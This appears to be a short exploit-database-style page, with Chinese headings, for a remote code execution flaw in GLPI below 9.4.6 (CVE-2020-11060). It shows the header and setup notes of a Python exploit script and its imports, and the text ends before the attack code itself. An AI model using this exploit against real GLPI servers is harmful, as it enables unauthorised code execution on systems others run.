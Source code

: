 <languages />

影响版本
--------

    Version: < 9.4.6

EXP
---

    # Exploit Title: GLPI 9.4.5 - Remote Code Execution (RCE)
    # Exploit Author: Brian Peters
    # Vendor Homepage: https://glpi-project.org
    # Software Link: https://github.com/glpi-project/glpi/releases
    # Version: < 9.4.6
    # CVE: CVE-2020-11060

    # Download a SQL dump and find the table offset for "wifinetworks" with
    # cat <sqlfile> | grep "CREATE TABLE" | grep -n wifinetworks
    # Update the offsettable value with this number in the create_dump function
    # The Nix/Win paths are based on defaults. You can use curl -I <url> and use md5sum to find the path based
    # on the Set-Cookie hash.

    #!/usr/bin/python

    import argparse
    import json
    import random
    import re
    import requests
    import string
    import sys
    import time
    from datetime import datetime
    from lxml import html
